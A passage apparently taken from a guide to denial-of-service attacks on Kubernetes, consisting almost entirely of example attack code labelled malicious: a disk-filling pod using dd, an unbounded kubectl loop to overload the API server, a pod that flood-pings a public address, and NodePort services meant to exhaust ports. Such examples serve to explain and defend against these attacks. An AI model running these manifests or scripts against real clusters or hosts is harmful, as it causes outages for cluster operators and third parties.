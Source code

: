 #### Storage Exhaustion
```yaml
# Malicious pod filling up disk space
apiVersion: v1
kind: Pod
metadata:
  name: disk-bomb
spec:
  containers:
  - name: disk-filler
    image: busybox
    command: ["sh", "-c", "dd if=/dev/zero of=/tmp/bigfile bs=1M count=10000"]
    volumeMounts:
    - name: temp-storage
      mountPath: /tmp
  volumes:
  - name: temp-storage
    emptyDir: {}
```

#### API Server Overload
```bash
# Malicious script overwhelming API server
while true; do
  kubectl get pods --all-namespaces &
  kubectl get services --all-namespaces &
  kubectl get deployments --all-namespaces &
done
```

### Network-Based DoS

#### Pod Network Flooding
```yaml
# Malicious pod generating network traffic
apiVersion: v1
kind: Pod
metadata:
  name: network-flooder
spec:
  containers:
  - name: flooder
    image: busybox
    command: ["sh", "-c", "while true; do ping -f 8.8.8.8; done"]
```

#### Service Disruption
```yaml
# Malicious service consuming all available ports
apiVersion: v1
kind: Service
metadata:
  name: port-exhaustion
spec:
  type: NodePort
  ports:
  - port: 80
    nodePort: 30000
  # Creating many such services can exhaust available NodePorts
```
